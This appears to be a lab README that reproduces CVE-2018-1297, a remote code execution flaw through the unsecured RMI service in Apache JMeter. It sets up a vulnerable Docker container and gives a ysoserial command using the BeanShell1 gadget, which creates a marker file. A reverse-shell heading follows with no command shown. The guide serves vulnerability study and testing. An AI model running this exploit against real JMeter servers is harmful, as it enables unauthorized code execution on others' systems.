


Apache JMeter RMI Deserialization Remote Code Execution (CVE-2018-1297)¶
Apache JMeter is an Apache project that can be used as a load testing tool for analyzing and measuring the performance of a variety of services, with a focus on web applications.
When using Distributed Test only (RMI based), Apache JMeter 2.x and 3.x uses an unsecured RMI connection. This could allow an attacker to get Access to JMeterEngine and send unauthorized code.
Vulnerable environment¶
Execute following command to start a JMeter v3.3 RMI server:
docker compose up -d
After the server is started, the RMI is listening on port 1099.
Exploit¶
Use ysoserial to exploit the deserialization by the gadget BeanShell1:
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 BeanShell1 'touch /tmp/success'
Execute docker compose exec jmeter bash to enter the container, you will see the /tmp/success has been created:

Get a reverse shell:
